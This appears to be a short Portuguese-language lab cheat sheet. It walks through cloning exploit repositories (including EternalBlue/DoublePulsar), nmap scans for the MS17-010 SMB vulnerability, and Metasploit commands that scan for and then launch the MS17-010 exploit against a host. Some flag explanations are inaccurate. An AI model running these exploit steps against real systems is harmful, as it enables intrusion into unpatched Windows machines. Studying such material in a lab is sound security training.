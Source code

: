 git clone https://github.com/vaamonde/nmap-nse-scripts
 
git clone https://github.com/vaamonde/exploit

git clone https://github.com/vaamonde/Eternalblue-Doublepulsar-Metasploit

git clone https://github.com/vaamonde/FakeImageExploiter

Verificar versão do NMAP:<br>	
nmap --version<br>

Manual do NMAP<br>
man nmap<br>
				
nmap -O -A -sV 10.26.46.0/24<br>
-O = detecção do Sistema Operacional<br>
-A = detecção do Sistema Operacional e Versão<br>
-sV = detecção do Sistema Operacional e Versão<br>

nmap -sS 10.26.46.45/24<br>
-sS = detecção de portas TCP<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse localhost<br>
-d = habilita a Debug (log detalhado, pode ir até a opção 9)<br>
-sC = habilitar o rastreamento de scan de portas<br>
-p = número da porta a rastrear (445 - Microsoft-df - SMB/CIFS)<br>
--open = verificar somente portas abertas<br>
--max-hostgroup = número máximo de grupos para o scaneamento<br>
--script = indicar script remoto para o scan<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.0/24<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.150<br>

Atualizar o Metasploit:		msfupdate<br>
Acessar o Metasploit:		msfconsole<br>
Reload dos Exploit:		reload_all<br>
Acessar o Modo Scan:<br>	use auxiliary/scanner/smb/smb_ms17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
							
Acessar o modo Exploit:	<br>	use exploit/ms17_010/ms_17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
